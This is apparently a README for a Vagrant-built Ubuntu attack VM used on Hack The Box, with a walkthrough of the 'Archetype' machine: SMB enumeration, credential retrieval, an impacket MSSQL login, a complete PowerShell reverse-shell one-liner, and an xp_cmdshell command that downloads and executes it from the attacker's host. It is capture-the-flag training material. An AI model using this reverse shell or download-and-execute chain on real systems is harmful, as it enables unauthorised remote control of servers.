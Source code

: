 # README.md
Build an ubuntu hack the box 
  
## Prequisites
[Vagrant Setup](../README.md)

## TODO
* Vagrant user allows non-ssh login with default password
* Solve the lynis issues

## Build the VM 
```sh
vagrant plugin install vagrant-env 
echo "PASSWORD=$(uuidgen)" > .env 
```

### Configure Network
Avoid adding to home network to prevent bridging. 

### Data Folder
1. Create a data folder in the repo root.
1. Download the ovpn file from HTB and copy to data folder

### Connect to HTB VPN
```sh
sudo openvpn /vagrant_data/<user>.ovpn
```

### Test HTB
```sh
nmap -sV 10.10.10.0/24
smbclient -N -L \\\\10.10.10.27\\
smbclient -N  \\\\10.10.10.27\\backups
dir
get prod.dtsConfig
cat prod.dtsConfig
```

### Impacket
```sh
git clone https://github.com/SecureAuthCorp/impacket
pip install .
./mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```


### Reverse Shell
Find your local IP and save a script to host
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Host the script
```sh
python3 -m http.server 80
nc -lvnp 443
```

Enable Firewall
```sh
ufw allow from 10.10.10.27 proto tcp to any port 80,443
```

Invoke it from SQL
```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
```